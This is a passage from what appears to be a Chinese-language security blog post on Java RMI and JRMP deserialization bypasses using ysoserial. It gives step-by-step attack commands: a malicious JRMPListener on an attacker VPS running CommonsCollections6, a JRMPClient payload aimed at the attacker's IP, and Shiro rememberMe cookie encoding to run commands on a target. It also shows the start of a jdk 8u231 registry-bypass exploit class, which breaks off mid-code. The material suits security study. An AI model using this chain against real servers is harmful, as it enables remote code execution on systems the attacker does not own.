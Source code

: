 上文的高版本绕过，RMI流，可攻击注册中心和客户端

exploit中

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240919232311093.png)

也是上文的高版本绕过，但是走的非RMI流，利用非RMI流走开RMI服务，用这个payload/JRMPClient开RMI服务，再用exploit对RMI进行攻击。非常常用的二次反序列化链子。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240919232905118.png)

这个payload可以在本机开JRMP监听



Usage：

攻击者先在公网 vps （本机可以用花生壳映射）上用 ysoserial 启一个恶意的 JRMPListener，监听在 19999 端口，并指定使用 CommonsCollections6 模块，要让目标执行的命令为 ping 一个域名：

```shell
java -cp ysoserial.jar ysoserial.expeseloit.JRMPListener 19999 CommonsCollections6 "ping cc6.m2pxdwq5pbhubx9p6043sg8wqnwdk2.burpcollaborator.net"
```

然后用 ysoserial 生成 JRMPClient 的序列化 payload，指向上一步监听的地址和端口（假如攻击者服务器 ip 地址为 1.1.1.1）：

```shell
java -jar ysoserial.jar JRMPClient "1.1.1.1:19999" > /tmp/jrmp.ser
```

再用 shiro 编码脚本对 JRMPClient payload 进行编码：

```java
java -jar shiro-exp.jar encrypt /tmp/jrmp.ser
```

将最后得到的字符串 Cookie 作为 rememberMe Cookie 的值，发送到目标网站。如果利用成功，则前面指定的 ping 命令会在目标服务器上执行，Burp Collaborator client 也将收到 DNS 解析记录。





## 修复

在jdk 8u231中，RMI针对accessCheck进行了修复。但还是可以绕

https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/

```java
package ysoserial.exploit;

import ysoserial.payloads.JRMPClient_bypass_jep_jdk231;
import ysoserial.secmgr.ExecCheckingSecurityManager;

public class RMIRegistryExploit_bypass_jep_jdk231 {
    private static class TrustAllSSL implements X509TrustManager {
        private static final X509Certificate[] ANY_CA = {};
        public X509Certificate[] getAcceptedIssuers() { return ANY_CA; }
        public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }
        public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }
    }

    private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {
        public Socket createSocket(String host, int port) throws IOException {
            try {
                SSLContext ctx = SSLContext.getInstance("TLS");
                ctx.init(null, new TrustManager[] {new TrustAllSSL()}, null);
                SSLSocketFactory factory = ctx.getSocketFactory();
                return factory.createSocket(host, port);
            } catch(Exception e) {
```
